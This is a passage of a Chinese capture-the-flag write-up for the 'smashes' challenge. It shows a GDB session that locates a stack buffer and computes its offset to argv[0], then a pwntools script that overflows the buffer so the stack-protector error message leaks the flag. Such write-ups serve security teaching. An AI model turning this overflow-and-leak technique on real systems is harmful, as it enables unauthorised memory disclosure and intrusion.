 我們可以確定我們讀入的字符串的起始地址其實就是調用 `__IO_gets` 之前的 rsp，所以我們把斷點下在 call 處，如下

```asm
gef➤  b *0x000000000040080E
Breakpoint 2 at 0x40080e
gef➤  c
Continuing.
Hello!
What's your name? 
Breakpoint 2, 0x000000000040080e in ?? ()
──────────────────────────[ code:i386:x86-64 ]────
     0x400804                  xor    eax, eax
     0x400806                  call   0x4006b0 <__printf_chk@plt>
     0x40080b                  mov    rdi, rsp
 →   0x40080e                  call   0x4006c0 <_IO_gets@plt>
   ↳    0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
        0x4006c6 <_IO_gets@plt+6> push   0x9
        0x4006cb <_IO_gets@plt+11> jmp    0x400620
        0x4006d0                  sub    rsp, 0x8
──────────────────[ stack ]────
['0x7fffffffda40', 'l8']
8
0x00007fffffffda40│+0x00: 0x0000ff0000000000	 ← $rsp, $rdi
0x00007fffffffda48│+0x08: 0x0000000000000000
0x00007fffffffda50│+0x10: 0x0000000000000000
0x00007fffffffda58│+0x18: 0x0000000000000000
0x00007fffffffda60│+0x20: 0x0000000000000000
0x00007fffffffda68│+0x28: 0x0000000000000000
0x00007fffffffda70│+0x30: 0x0000000000000000
0x00007fffffffda78│+0x38: 0x0000000000000000
────────────────────────────────────────────[ trace ]────
[#0] 0x40080e → call 0x4006c0 <_IO_gets@plt>
──────────────────────────────────────────────────────────
gef➤  print $rsp
$1 = (void *) 0x7fffffffda40
```

可以看出rsp的值爲0x7fffffffda40，那麼相對偏移爲

```python
>>> 0x00007fffffffdc58-0x7fffffffda40
536
>>> hex(536)
'0x218'
```

#### 利用程序

我們構造利用程序如下

```python
from pwn import *
context.log_level = 'debug'
smash = ELF('./smashes')
if args['REMOTE']:
    sh = remote('pwn.jarvisoj.com', 9877)
else:
    sh = process('./smashes')
argv_addr = 0x00007fffffffdc58
name_addr = 0x7fffffffda40
flag_addr = 0x600D20
another_flag_addr = 0x400d20
payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
sh.recvuntil('name? ')
sh.sendline(payload)
sh.recvuntil('flag: ')
```